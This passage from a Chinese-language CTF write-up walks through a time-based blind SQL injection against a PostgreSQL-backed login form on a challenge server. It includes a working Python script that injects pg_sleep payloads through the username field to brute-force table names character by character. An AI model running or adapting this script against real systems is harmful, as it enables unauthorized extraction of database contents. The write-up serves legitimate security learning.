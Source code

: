 ```sql
```
成功造成延遲，代表當前 database 有 2 個 table\
接下來，利用 time-based blind injection 撰寫 python 腳本爆破出 table name
```python
# PasteWeb1/table_name.py
import requests
from time import time, sleep

printable_char = ''
for i in range(33, 127):
    printable_char += chr(i)

offset = 0
while True:
    cnt = 0
    table_name = ''
    while True:
        cnt += 1
        stop = True
        for c in printable_char:
            sleep(0.1)
            username = "' or 1=(select 1 from pg_sleep(2) where substr((select \
            table_name from information_schema.tables where table_schema='public' \
            limit 1 offset " + str(offset) + "),1," + str(cnt) + ")='" \
            + table_name + c + "') --"
            current_time = str(int(time()))
            url = 'https://pasteweb.ctf.zoolab.org/'
            data = {
                'username': username,
                'password': '',
                'current_time': current_time
            }
            start_time = time()
            requests.post(url, data=data)
            end_time = time()
            if end_time - start_time > 2:
                table_name += c
                stop = False
                break
        if stop == True:
            break
        print(table_name, cnt)
    if len(table_name) == 0:
        break
    offset += 1
```
```printable_char``` 是 ascii code 33 到 126 的所有可印字元，會利用 blind injection 對字元一個一個去暴力破解
```substr``` function 能取得子字串，例如 ```substr(s, 1, 2)``` 代表從字串 s 的第 1 個位置取出 2 個字元
另外，PostgreSQL 沒有 ```limit N,M``` 的語法\
必須要改用 ```limit N offset M```，從第 M 個 row 開始取出 N 筆資料 (M 會從 0 開始)\
送 post request 的時候也要記得前面講的，要送 current_time 這個參數\
server 會檢查 current_time 參數值與目前時間的差是否小於某個值\
做 time-based blind SQL injection 的方式是，在送 request 的前後記錄目前的時間\
分別為 start_time 和 end_time，用 ```time()``` 可以取得目前的 timestamp (以秒為單位)，由於 sleep 的時間為 2 秒\
當 start_time 和 end_time 相差超過 2 秒時，代表成功造成延遲，如果沒超過的話代表沒有造成延遲
![](assets/5-8.png)
成功爆破出 2 個 table name：pasteweb_accounts、s3cr3t_t4b1e\
s3cr3t_t4b1e 這個 table 看起來比較可疑，猜測 flag 會藏在裡面\
於是接下來要用一樣的方式爆破出 s3cr3t_t4b1e 的 column name\
參考 https://github.com/w181496/Web-CTF-Cheatsheet
![](assets/5-11.png)
PostgreSQL database 中所有 table 的 column name 會存在 ```information_schema.columns``` 裡\
撰寫 python 腳本爆破出 s3cr3t_t4b1e 這個 table 的 column name
```python
```